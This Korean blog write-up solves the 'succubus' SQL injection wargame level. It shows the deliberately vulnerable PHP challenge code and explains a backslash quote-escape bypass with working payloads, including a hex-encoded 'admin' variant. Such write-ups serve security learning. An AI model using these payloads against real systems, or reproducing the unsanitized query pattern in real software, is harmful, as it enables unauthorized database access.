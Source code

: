 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - succubus 문제풀이"
excerpt_separator: <!--more-->
comments: true
categories : [Wargame/Lord of SQL Injection]
tags:
  - Write-up
  - Lord of SQL Injection
---
```


이번 문제는 `succubus`이다.  

`succubus`는 처음 듣는 이름이라 찾아봤는데, 중세 유럽의 전설이랑 민속에 나오는 악마 이름이라고 한다.  

<!--more-->

코드는 다음과 같다.  

```php
-------------------------------------------------------------------------------
query : select id from prob_succubus where id='' and pw=''
-------------------------------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[id])) exit("HeHe"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_succubus where id='{$_GET[id]}' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) solve("succubus"); 
  highlight_file(__FILE__); 
?>
```

지난 번 문제랑 뭐가 다른가 했는데, `ereg()` 대신에 `preg_match()`가 사용되었다.  

이번엔 정말로 `'`를 우회해야 하는 문제인 것 같다.  

처음에는 `preg_match()` 함수에 취약점이 있지 않을까 생각했다.  

그런데 아무리 찾아도 취약점이 있다는 내용이 보이지 않았고, 아직까지 `preg_match()`에 대한 취약점이 나오지 않았다는 글이 2017년에 올라와 있었다.  

그럼 다른 방법으로 문제를 풀어야 했기 때문에 엄청 고민을 했다.  

이런저런 키워드로 검색을 했는데, 그러다가 `\`에 필터링이 없을 경우 이를 이용 해 문제를 풀 수 있다는 내용을 봤다.  

문제에서, `id`와 `pw`를 입력받고 있다.  

이 때, 만약 `id`에 `\`를 입력하고 `pw`에는 ` or 1#`를 입력하면 완성되는 쿼리는 아래와 같다.  

```
select id from prob_succubus where id='\' and pw' or 1#
```

때문에 `id`의 뒤에 있는 `'`는 `\'`가 되며 싱글 쿼터 내의 문자로 인식된다.  

즉, `id`가 `' and pw`인 행을 찾게 되는 것이다.  

물론 테이블에는 `id`가 `' and pw`인 행은 없을 것이므로, 뒤의 `or 1`이 실행되며 값을 추출할 수 있게 된다.  

따라서 아래와 같이 입력하면 문제를 풀 수 있다.  

```
?id=\&pw= or 1%23
```

문제에서는 결과로 추출 된 `id`만 있으면 되기 때문에 `or 1`을 사용했는데, 만약 `admin`인 `id`를 추출했어야 했다면 `or id=0x61646d696e%23`을 `pw`에 입력하면 문제를 풀 수 있다.  

```php
--------------------------------------------------------------------------------------
query : select id from prob_succubus where id='\' and pw=' or 1#'
--------------------------------------------------------------------------------------

SUCCUBUS Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[id])) exit("HeHe"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_succubus where id='{$_GET[id]}' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) solve("succubus"); 
  highlight_file(__FILE__); 
?>
```

`SUCCUBUS Clear!!`
